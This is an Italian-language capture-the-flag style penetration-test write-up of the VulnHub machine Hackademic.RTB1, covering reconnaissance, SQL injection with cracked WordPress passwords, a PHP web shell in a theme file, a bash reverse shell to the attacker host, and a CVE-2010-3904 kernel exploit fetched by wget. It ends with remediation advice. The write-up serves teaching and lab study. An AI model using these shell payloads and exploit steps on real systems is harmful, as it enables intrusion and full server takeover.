<div align="center">

# 🎯 Hackademic.RTB1 — Penetration Testing Write-up

**VulnHub | WordPress 1.5.1.1 | SQL Injection → RCE → Kernel Privilege Escalation**


</div>

---

## ⚠️ Disclaimer

Questo write-up documenta un penetration test condotto in un **laboratorio isolato e controllato** su una macchina volontariamente vulnerabile ([Hackademic.RTB1](https://www.vulnhub.com/), VulnHub), a **scopo esclusivamente didattico**. Le tecniche descritte non devono essere utilizzate contro sistemi reali privi di autorizzazione esplicita e scritta: l'accesso non autorizzato a sistemi informatici è reato nella maggior parte delle giurisdizioni.

---

## 📋 Indice

- [Panoramica](#-panoramica)
- [Attack Chain](#-attack-chain)
- [1. Network Reconnaissance](#1-network-reconnaissance)
- [2. Web Enumeration & Content Discovery](#2-web-enumeration--content-discovery)
- [3. User Enumeration & Accesso Iniziale](#3-user-enumeration--accesso-iniziale)
- [4. Vulnerability Research](#4-vulnerability-research)
- [5. SQL Injection & Data Exfiltration](#5-sql-injection--data-exfiltration)
- [6. Accesso Amministrativo & RCE](#6-accesso-amministrativo--rce)
- [7. Reverse Shell](#7-reverse-shell)
- [8. Local Privilege Escalation — CVE-2010-3904](#8-local-privilege-escalation--cve-2010-3904)
- [9. Root & Flag](#9-root--flag)
- [Root Cause Analysis](#-root-cause-analysis)
- [Remediation](#-remediation)
- [Tool-box](#-tool-box)
- [Riferimenti](#-riferimenti)

---

## 📌 Panoramica

| Campo | Dettaglio |
|---|---|
| **Target** | Hackademic.RTB1 (VulnHub) |
| **Target IP** | `192.168.25.146` |
| **Attacker** | Kali Linux — `192.168.25.128` |
| **OS Target** | Fedora 13 — Kernel `2.6.31.5-127.fc12.i686` |
| **Vulnerabilità** | User Enumeration · SQL Injection · Weak/Default Auth · Arbitrary File Write → RCE · Kernel LPE (CVE-2010-3904) |
| **Obiettivo** | Ottenere privilegi `root` e leggere `/root/Key.txt` |
| **Esito** | ✅ **Root ottenuto, flag catturata** |

Hackademic.RTB1 è una macchina didattica basata su un'installazione volutamente datata di **WordPress 1.5.1.1** su **Fedora 13**. Il percorso di compromissione ricostruisce un attacco black-box realistico: dalla ricognizione di rete fino al controllo completo del sistema operativo, passando per SQL Injection, un accesso amministrativo abusato per ottenere RCE e, infine, lo sfruttamento di una vulnerabilità del kernel Linux.

## 🔗 Attack Chain



---

## 1. Network Reconnaissance

Individuazione dell'host target nella subnet locale tramite scansione ARP (più affidabile di un ping sweep perché opera a livello 2):

```bash
sudo nmap -sn -PR 192.168.25.0/24
```

<p align="center"></p>

La scansione rileva **5 host attivi**. Escludendo gli indirizzi dell'infrastruttura VMware, resta un solo candidato:

| IP | Ruolo |
|---|---|
| `192.168.25.1` | Interfaccia virtuale host Windows (VMware) |
| `192.168.25.2` | Gateway NAT VMware |
| `192.168.25.128` | Kali Linux — attaccante |
| `192.168.25.254` | Servizio DHCP VMware |
| **`192.168.25.146`** | **Target candidato** |

Scansione approfondita di porte e servizi:

```bash
sudo nmap -sV -sC 192.168.25.146
```

<p align="center"></p>

Il banner `http-title: Hackademic.RTB1` conferma il target corretto.

| Porta | Stato | Servizio |
|---|---|---|
| 22/tcp | ❌ closed | SSH non raggiungibile |
| 80/tcp | ✅ open | Apache httpd 2.2.15 (Fedora) |
| altre 998 | 🔒 filtered | nessuna risposta |

Con un'unica porta applicativa esposta, l'intera superficie di attacco si concentra sul web server.

---

## 2. Web Enumeration & Content Discovery

Homepage del target:

<p align="center"></p>

Cliccando su *target* si raggiunge il percorso reale dell'applicazione (`/Hackademic_RTB1/`):

<p align="center"></p>

### Directory brute-forcing con Gobuster

```bash
gobuster dir \
  -u http://192.168.25.146/Hackademic_RTB1/ \
  -w /usr/share/wordlists/dirb/common.txt \
  -x php,txt,html \
  -t 10
```

| Flag | Significato |
|---|---|
| `dir` | Modalità enumerazione directory/file |
| `-u` | URL base |
| `-w` | Wordlist (dirb/common.txt) |
| `-x` | Estensioni aggiuntive da testare |
| `-t 10` | Thread paralleli |

<p align="center"></p>

Output: struttura tipica WordPress — `wp-admin/`, `wp-content/`, `wp-includes/`, `wp-login.php`, `readme.html`.

---

## 3. User Enumeration & Accesso Iniziale

Un tentativo di login con `admin/admin` restituisce un messaggio di errore differenziato:

<p align="center"></p>

> **🔓 Vulnerabilità — User Enumeration (CWE-203)**
> Il form restituisce messaggi diversi per "username errato" e "password errata", permettendo di enumerare utenti validi prima di un attacco a dizionario.

Analizzando i post del blog emerge l'autore dei contenuti, **NickJames**:

<p align="center"></p>

Provando `NickJames : admin` (password di default):

<p align="center"></p>

Il pannello conferma la versione del CMS:

<p align="center"></p>

**WordPress 1.5.1.1** — rilasciata nel 2005, priva di qualunque supporto. L'utente NickJames ha però privilegi limitati (Autore/Subscriber): serve un account Administrator.

---

## 4. Vulnerability Research

Ricerca di exploit pubblici noti per la versione identificata:

```bash
searchsploit wordpress 1.5.1.1
```

<p align="center"></p>
<p align="center"></p>

Risultato: vulnerabilità note di **SQL Injection** e **Remote Code Execution** per questa release.

---

## 5. SQL Injection & Data Exfiltration

Il parametro `cat` (filtro categoria) non sanitizza l'input ed è vulnerabile a SQLi. Sfruttamento automatizzato con SQLMap:

```bash
sqlmap -u "http://192.168.25.146/Hackademic_RTB1/?cat=1" --dbs --batch
```

<p align="center"></p>

> **🔓 Vulnerabilità — SQL Injection (CWE-89)**
> Query concatenata senza prepared statement. SQLMap rileva sia tecniche *time-based blind* che *UNION-based*.

Database identificato: **`wordpress`**. Dump della tabella `wp_users` con cracking automatico degli hash MD5:

<p align="center"></p>

| Username | Password | Ruolo |
|---|---|---|
| NickJames | `admin` | Autore |
| MaxBucky | `kernel` | Standard |
| JasonKonnors | `maxwell` | Standard |
| TonyBlack | `napoleon` | Standard |
| **GeorgeMiller** | `q1w2e3` | **Administrator** |

> **🔓 Vulnerabilità — Credenziali deboli (CWE-521)**
> Password brevi e prevedibili, crackabili in pochi secondi con dizionario standard — incluso l'account amministrativo.

---

## 6. Accesso Amministrativo & RCE

Login come `GeorgeMiller` (Administrator) → accesso completo al pannello, incluso **Theme Editor**:

<p align="center"></p>

Modifica del file `404.php` del tema `starburst`, inserendo una web shell minimale:

<p align="center"></p>

```php
<?php system($_GET['cmd']); ?>
```

> **🔓 Vulnerabilità — Remote Code Execution (CWE-94)**
> Il Theme Editor consente a un Administrator di scrivere codice PHP arbitrario in file serviti dal web server: privilegio applicativo = RCE sul sistema operativo.

Verifica della RCE:

```bash
curl "http://192.168.25.146/Hackademic_RTB1/wp-content/themes/starburst/404.php?cmd=id"
# uid=48(apache) gid=489(apache) groups=489(apache)
```

---

## 7. Reverse Shell

Listener in ascolto su Kali:

```bash
nc -lvnp 4444
```

Trigger della reverse shell tramite la webshell:

```bash
curl -G --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/192.168.25.128/4444 0>&1'" \
  "http://192.168.25.146/Hackademic_RTB1/wp-content/themes/starburst/404.php"
```

<p align="center"></p>

```
bash-4.0$ whoami
apache
```

---

## 8. Local Privilege Escalation — CVE-2010-3904

Identificazione del kernel:

```bash
uname -a
# Linux HackademicRTB1 2.6.31.5-127.fc12.i686 #1 SMP ... i686 GNU/Linux
```

<p align="center"></p>

> **🔓 Scheda vulnerabilità kernel**
> **Linux Kernel < 2.6.36 — RDS Protocol Local Privilege Escalation**
> **CVE:** [CVE-2010-3904](https://nvd.nist.gov/vuln/detail/CVE-2010-3904) · **Exploit-DB:** 15285 / 40812
> Validazione insufficiente nel driver del protocollo RDS consente a un utente locale di scrivere arbitrariamente in memoria kernel, sovrascrivendo le credenziali del processo e impostando UID a 0.

Trasferimento dell'exploit tramite web server temporaneo:

```bash
# Su Kali
python3 -m http.server 8000

# Sul target
cd /tmp
wget http://192.168.25.128:8000/40812.c
```

Compilazione ed esecuzione:

```bash
gcc -o exploit 40812.c
./exploit
```

<p align="center"></p>

L'exploit risolve dinamicamente gli indirizzi kernel (`security_ops`, `commit_creds`, `prepare_kernel_cred`) e sovrascrive le credenziali del processo corrente.

---

## 9. Root & Flag

```bash
whoami
# root
```

<p align="center"></p>

```bash
cd /root
cat Key.txt
```

🚩 **Macchina completamente compromessa — accesso root ottenuto.**

---

## 🧩 Root Cause Analysis

| Causa | Impatto |
|---|---|
| Software obsoleto (WordPress 1.5.1.1, 2005) | Nessuna patch di sicurezza disponibile |
| Credenziali deboli/prevedibili | Compromissione rapida via dizionario |
| Input non validato (`?cat=`) | SQL Injection → esfiltrazione dati |
| Theme/Plugin Editor accessibile | Privilegio applicativo → RCE di sistema |
| Kernel non aggiornato | Local Privilege Escalation nota e pubblica |
| Assenza di difese in profondità | Nessun WAF / IDS / hardening PHP |

## 🛡️ Remediation

**Priorità critica**
- [ ] Aggiornare WordPress all'ultima versione stabile
- [ ] `DISALLOW_FILE_EDIT = true` in `wp-config.php` (disabilita Theme/Plugin Editor)
- [ ] Correggere la SQLi con query parametrizzate + whitelist sul parametro `cat`

**Priorità alta**
- [ ] Password policy robusta + MFA sugli account Administrator
- [ ] Aggiornamento OS/kernel con patching regolare
- [ ] Uniformare i messaggi di errore di login + rate limiting

**Hardening strutturale**
- [ ] Eseguire PHP con utente a privilegi minimi
- [ ] `disable_functions` per `system`, `exec`, `shell_exec`, `passthru`
- [ ] WAF per pattern di SQLi/command injection
- [ ] File integrity monitoring su temi/plugin + logging centralizzato
- [ ] Segmentazione di rete e restrizione dell'uscita verso Internet

---

## 🧰 Tool-box

| Tool | Uso |
|---|---|
| [Nmap](https://nmap.org/) | Host/service discovery |
| [Gobuster](https://github.com/OJ/gobuster) | Content discovery |
| [SearchSploit](https://www.exploit-db.com/searchsploit) | Ricerca exploit pubblici |
| [SQLMap](https://sqlmap.org/) | Sfruttamento SQL Injection |
| Netcat | Reverse shell listener |
| GCC | Compilazione exploit locale |
| [Exploit-DB 40812](https://www.exploit-db.com/exploits/40812) | CVE-2010-3904 LPE |

## 📚 Riferimenti

- [CVE-2010-3904 — NVD](https://nvd.nist.gov/vuln/detail/CVE-2010-3904)
- [Exploit-DB 15285 / 40812 — RDS socket exploit, Dan Rosenberg](https://www.exploit-db.com/exploits/40812)
- [VulnHub — Hackademic.RTB1](https://www.vulnhub.com/)
- OWASP Top 10 — A03:2021 Injection · A07:2021 Identification and Authentication Failures
- CWE-89 · CWE-94 · CWE-203 · CWE-521

---

<div align="center">

*Write-up a scopo didattico — laboratorio isolato, nessun sistema reale è stato coinvolto.*

</div>
